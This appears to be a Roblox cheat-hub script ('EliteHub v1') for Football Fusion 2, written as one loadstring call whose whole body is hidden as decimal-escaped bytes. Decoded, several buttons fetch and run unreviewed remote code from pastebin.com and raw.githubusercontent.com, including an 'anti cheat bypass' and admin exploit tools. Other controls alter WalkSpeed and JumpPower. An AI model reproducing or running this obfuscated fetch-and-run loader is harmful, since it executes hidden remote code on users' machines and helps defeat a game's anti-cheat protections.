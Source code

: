 loadstring("\108\111\99\97\108\32\76\105\98\114\97\114\121\32\61\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\120\72\101\112\116\99\47\75\97\118\111\45\85\73\45\76\105\98\114\97\114\121\47\109\97\105\110\47\115\111\117\114\99\101\46\108\117\97\34\41\41\40\41\10\108\111\99\97\108\32\87\105\110\100\111\119\32\61\32\76\105\98\114\97\114\121\46\67\114\101\97\116\101\76\105\98\40\34\69\108\105\116\101\72\117\98\32\118\49\32\40\84\101\115\116\32\83\99\114\105\112\116\41\34\44\32\34\83\121\110\97\112\115\101\34\41\10\32\10\45\45\77\97\105\110\10\108\111\99\97\108\32\77\97\105\110\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\77\97\105\110\34\41\10\108\111\99\97\108\32\77\97\105\110\83\101\99\116\105\111\110\32\61\32\77\97\105\110\58\78\101\119\83\101\99\116\105\111\110\40\34\85\110\105\118\101\114\115\97\108\32\83\99\114\105\112\116\115\34\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\66\121\112\97\115\115\32\65\110\116\105\32\67\104\101\97\116\34\44\32\34\66\121\112\97\115\115\101\115\32\77\79\83\84\32\65\110\116\105\32\67\104\101\97\116\115\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\114\57\109\55\97\53\120\113\34\41\41\40\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\73\110\102\105\110\105\116\101\32\89\105\101\108\100\34\44\32\34\69\110\97\98\108\101\115\32\73\110\102\105\110\105\116\101\32\89\105\101\108\100\32\40\85\83\69\32\66\89\80\65\83\83\41\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\69\100\103\101\73\89\47\105\110\102\105\110\105\116\101\121\105\101\108\100\47\109\97\115\116\101\114\47\115\111\117\114\99\101\34\41\41\40\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\68\111\109\97\105\110\32\88\34\44\32\34\69\110\97\98\108\101\115\32\68\111\109\97\105\110\32\88\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\115\104\108\101\120\119\97\114\101\47\68\111\109\97\105\110\88\47\109\97\105\110\47\115\111\117\114\99\101\39\44\116\114\117\101\41\41\40\41\34\41\41\40\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\72\111\109\101\98\114\101\119\32\65\100\109\105\110\34\44\32\34\69\110\97\98\108\101\115\32\72\111\109\101\98\114\101\119\32\65\100\109\105\110\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\95\71\46\67\117\115\116\111\109\85\73\32\61\32\102\97\108\115\101\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\103\97\109\105\110\103\112\114\111\47\72\111\109\101\98\114\101\119\65\100\109\105\110\47\109\97\115\116\101\114\47\77\97\105\110\39\41\44\116\114\117\101\41\41\40\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\67\111\110\118\101\114\116\119\97\114\101\34\44\32\34\69\110\97\98\108\101\115\32\67\111\110\118\101\114\116\119\97\114\101\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\39\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\115\112\101\99\111\119\111\115\47\67\79\78\86\69\82\84\87\65\82\69\47\109\97\105\110\47\85\73\47\107\114\110\108\37\50\48\120\46\108\117\97\39\44\116\114\117\101\41\41\40\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\77\97\103\32\83\101\116\116\105\110\103\115\34\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\83\108\105\100\101\114\40\34\76\101\103\105\116\32\77\97\103\115\47\77\97\103\32\83\116\114\101\110\103\116\104\34\44\32\34\67\104\97\110\103\101\32\89\111\117\114\32\77\97\103\32\83\116\114\101\110\103\116\104\34\44\32\49\48\48\44\32\48\44\32\102\117\110\99\116\105\111\110\40\115\41\10\32\32\32\32\112\114\105\110\116\40\34\65\100\100\101\100\32\77\97\103\115\34\41\10\101\110\100\41\10\32\10\77\97\105\110\83\101\99\116\105\111\110\58\78\101\119\83\108\105\100\101\114\40\34\77\97\103\32\67\104\97\110\99\101\34\44\32\34\67\104\97\110\103\101\32\89\111\117\114\32\77\97\103\32\67\104\97\110\99\101\34\44\32\49\48\48\44\32\49\44\32\102\117\110\99\116\105\111\110\40\115\41\10\32\32\32\32\112\114\105\110\116\40\34\65\100\100\101\100\32\77\97\103\32\67\104\97\110\99\101\33\34\41\10\101\110\100\41\10\32\10\45\45\108\111\99\97\108\32\112\108\97\121\101\114\10\108\111\99\97\108\32\80\108\97\121\101\114\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\80\108\97\121\101\114\34\41\10\108\111\99\97\108\32\80\108\97\121\101\114\83\101\99\116\105\111\110\32\61\32\80\108\97\121\101\114\58\78\101\119\83\101\99\116\105\111\110\40\34\80\108\97\121\101\114\34\41\10\32\10\80\108\97\121\101\114\83\101\99\116\105\111\110\58\78\101\119\83\108\105\100\101\114\40\34\87\97\108\107\115\112\101\101\100\34\44\32\34\67\104\97\110\103\101\32\89\111\117\114\32\87\97\108\107\115\112\101\101\100\34\44\32\53\48\48\44\32\49\54\44\32\102\117\110\99\116\105\111\110\40\115\41\32\45\45\32\53\48\48\32\40\77\97\120\86\97\108\117\101\41\32\124\32\48\32\40\77\105\110\86\97\108\117\101\41\10\32\32\32\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\87\97\108\107\83\112\101\101\100\32\61\32\115\10\101\110\100\41\10\32\10\80\108\97\121\101\114\83\101\99\116\105\111\110\58\78\101\119\83\108\105\100\101\114\40\34\74\117\109\112\80\111\119\101\114\34\44\32\34\67\104\97\110\103\101\32\89\111\117\114\32\74\117\109\112\112\111\119\101\114\34\44\32\53\48\48\44\32\53\48\44\32\102\117\110\99\116\105\111\110\40\115\41\32\45\45\32\53\48\48\32\40\77\97\120\86\97\108\117\101\41\32\124\32\48\32\40\77\105\110\86\97\108\117\101\41\10\32\32\32\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\74\117\109\112\80\111\119\101\114\32\61\32\115\10\101\110\100\41\10\32\10\80\108\97\121\101\114\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\71\111\100\32\77\111\100\101\32\40\66\101\105\110\103\32\70\105\120\101\100\41\34\44\32\34\71\111\100\32\77\111\100\101\32\105\115\32\116\101\109\112\111\114\97\114\121\32\100\105\115\97\98\108\101\100\32\40\66\117\103\115\47\73\115\115\117\101\115\46\41\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\112\114\105\110\116\40\34\71\111\100\32\77\111\100\101\32\105\115\32\116\101\109\112\111\114\97\114\121\32\100\105\115\97\98\108\101\100\32\40\66\117\103\115\47\73\115\115\117\101\115\46\41\34\41\10\101\110\100\41\10\32\10\45\45\108\111\99\97\108\32\70\70\50\10\108\111\99\97\108\32\70\70\50\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\70\70\50\34\41\10\108\111\99\97\108\32\70\70\50\83\101\99\116\105\111\110\32\61\32\70\70\50\58\78\101\119\83\101\99\116\105\111\110\40\34\70\70\50\34\41\10\32\10\70\70\50\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\76\101\103\105\116\32\77\97\103\115\32\40\79\110\108\121\32\85\115\101\32\84\104\101\32\77\97\103\115\41\34\44\32\34\69\110\97\98\108\101\115\32\97\110\111\116\104\101\114\32\71\117\105\32\102\111\114\32\76\101\103\105\116\32\77\97\103\115\46\32\40\79\78\76\89\32\85\83\69\32\84\72\69\32\77\65\71\83\32\79\82\32\69\76\83\69\32\65\32\80\79\83\83\73\66\76\69\32\66\65\78\33\41\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\76\79\76\107\105\110\103\49\50\51\52\53\54\47\102\110\105\101\111\105\47\109\97\105\110\47\100\119\113\102\101\119\103\34\41\40\41\10\101\110\100\41\10\32\10\70\70\50\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\85\115\101\32\75\101\121\32\40\70\122\120\48\100\57\48\106\89\77\69\52\57\50\113\41\32\70\111\114\32\76\101\103\105\116\32\77\97\103\115\32\85\115\101\33\34\41\10\32\10\70\70\50\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\66\108\97\116\97\110\116\32\77\97\103\115\34\44\32\34\69\110\97\98\108\101\115\32\66\108\97\116\97\110\116\47\80\117\108\108\32\86\101\99\116\111\114\32\77\97\103\115\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\34\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\65\65\52\85\80\103\88\51\34\41\40\41\10\101\110\100\41\10\32\10\70\70\50\83\101\99\116\105\111\110\58\78\101\119\66\117\116\116\111\110\40\34\66\97\99\107\117\112\32\77\97\103\115\34\44\32\34\74\117\115\116\32\105\110\99\97\115\101\32\116\104\101\32\114\101\103\117\108\97\114\32\109\97\103\115\32\98\114\101\97\107\44\34\44\32\102\117\110\99\116\105\111\110\40\41\10\32\32\32\32\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\34\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\49\67\81\106\99\65\52\81\34\41\40\41\10\101\110\100\41\10\10\45\45\108\111\99\97\108\32\65\117\116\111\109\97\116\105\99\115\10\108\111\99\97\108\32\65\117\116\111\109\97\116\105\99\115\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\65\117\116\111\109\97\116\105\99\115\34\41\10\108\111\99\97\108\32\65\117\116\111\109\97\116\105\99\115\83\101\99\116\105\111\110\32\61\32\65\117\116\111\109\97\116\105\99\115\58\78\101\119\83\101\99\116\105\111\110\40\34\65\117\116\111\109\97\116\105\99\115\34\41\10\32\10\65\117\116\111\109\97\116\105\99\115\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\75\114\110\108\32\117\115\101\114\115\32\109\105\103\104\116\32\115\116\114\117\103\103\108\101\32\111\110\32\65\117\116\111\109\97\116\105\99\115\46\46\46\34\41\10\10\65\117\116\111\109\97\116\105\99\115\83\101\99\116\105\111\110\58\78\101\119\84\111\103\103\108\101\40\34\65\117\116\111\66\108\111\99\107\34\44\32\34\65\117\116\111\77\97\116\105\99\97\108\108\121\32\66\108\111\99\107\115\34\44\32\102\117\110\99\116\105\111\110\40\115\116\97\116\101\41\10\32\32\32\32\105\102\32\115\116\97\116\101\32\116\104\101\110\10\32\32\32\32\32\32\32\32\112\114\105\110\116\40\34\84\111\103\103\108\101\100\32\65\117\116\111\66\76\111\99\107\32\79\110\34\41\10\32\32\32\32\101\108\115\101\10\32\32\32\32\32\32\32\32\112\114\105\110\116\40\34\84\111\103\103\108\101\100\32\65\117\116\111\66\108\111\99\107\32\79\102\102\34\41\10\32\32\32\32\101\110\100\10\101\110\100\41\10\32\10\65\117\116\111\109\97\116\105\99\115\83\101\99\116\105\111\110\58\78\101\119\83\108\105\100\101\114\40\34\65\117\116\111\32\66\108\111\99\107\32\82\101\97\99\104\34\44\32\34\67\104\97\110\103\101\32\89\111\117\114\32\65\117\116\111\66\108\111\99\107\32\82\101\97\99\104\34\44\32\53\48\44\32\49\44\32\102\117\110\99\116\105\111\110\40\115\41\32\45\45\32\53\48\48\32\40\77\97\120\86\97\108\117\101\41\32\124\32\48\32\40\77\105\110\86\97\108\117\101\41\10\32\32\32\32\112\114\105\110\116\40\34\67\104\97\110\103\101\100\32\65\117\116\111\66\108\111\99\107\32\82\101\97\99\104\34\41\10\101\110\100\41\10\10\45\45\73\110\102\111\10\108\111\99\97\108\32\73\110\102\111\32\61\32\87\105\110\100\111\119\58\78\101\119\84\97\98\40\34\73\110\102\111\34\41\10\108\111\99\97\108\32\73\110\102\111\83\101\99\116\105\111\110\32\61\32\73\110\102\111\58\78\101\119\83\101\99\116\105\111\110\40\34\73\110\102\111\114\109\97\116\105\111\110\32\111\102\32\69\108\105\116\101\32\72\117\98\46\34\41\10\10\73\110\102\111\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\67\117\114\114\101\110\116\32\86\101\114\115\105\111\110\58\32\32\32\49\46\49\46\51\32\32\40\69\97\114\108\121\32\65\108\112\104\97\41\34\41\10\10\73\110\102\111\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\67\117\114\114\101\110\116\32\83\99\114\105\112\116\32\83\116\97\116\117\115\58\32\32\32\65\108\108\32\83\101\114\118\105\99\101\115\32\65\114\101\32\71\111\111\100\33\34\41\10\10\73\110\102\111\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\80\97\105\100\32\83\116\97\116\117\115\58\32\32\32\84\101\115\116\101\114\34\41\10\10\73\110\102\111\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\79\119\110\101\114\58\32\32\32\85\114\78\111\116\83\111\71\111\111\100\68\101\118\35\49\52\48\48\34\41\10\10\73\110\102\111\83\101\99\116\105\111\110\58\78\101\119\76\97\98\101\108\40\34\68\101\118\101\108\111\112\101\114\58\32\32\32\97\99\114\105\110\105\120\35\53\50\48\51\34\41\10")()
